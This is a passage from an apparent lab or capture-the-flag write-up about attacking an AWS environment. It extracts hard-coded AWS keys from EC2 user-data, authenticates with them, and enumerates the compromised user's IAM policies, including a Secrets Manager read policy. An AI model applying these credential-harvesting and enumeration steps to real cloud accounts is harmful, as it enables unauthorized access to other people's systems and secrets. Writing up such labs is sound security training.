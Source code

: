 ```

--//
Content-Type: text/x-shellscript; charset="us-ascii"
MIME-Version: 1.0
Content-Transfer-Encoding: 7bit
Content-Disposition: attachment; filename="userdata.txt"

#!/bin/bash

# Set AWS access keys
AWS_ACCESS_KEY_ID=AKIAYPXUTY36T6I4BMH6
AWS_SECRET_ACCESS_KEY=<REDACTED>

aws --profile bob configure set aws_secret_access_key $AWS_ACCESS_KEY_ID
aws --profile bob configure set aws_secret_access_key $AWS_SECRET_ACCESS_KEY

yum update -y
yum install -y httpd

systemctl start httpd

systemctl enable httpd
mkdir /var/www/html/hg_launch_website

cd /var/www/html/hg_launch_website
aws s3 cp s3://huge-logistics-website-data/ ./
--//--

```
We find  `bob`'s hard-coded AWS keys, where more secure approach instead would have been to attach an IAM role (permissioned with the principle of least privilege) to the EC2 instance

We authenticated as `bob` using found credentials (set region to `us-west-2`)
```
└─$ aws sts get-caller-identity
{
    "UserId": "AIDAYPXUTY36WT3YRSTDQ",
    "Account": "583554811645",
    "Arn": "arn:aws:iam::583554811645:user/bob"
}
```

Enumerate the policies using permissions of `engineering` role we have
```
└─$ aws --profile louise-eng iam list-attached-user-policies --user-name bob
{
    "AttachedPolicies": [
        {
            "PolicyName": "ReadSecretsManager",
            "PolicyArn": "arn:aws:iam::583554811645:policy/ReadSecretsManager"
        }
    ]
}

```
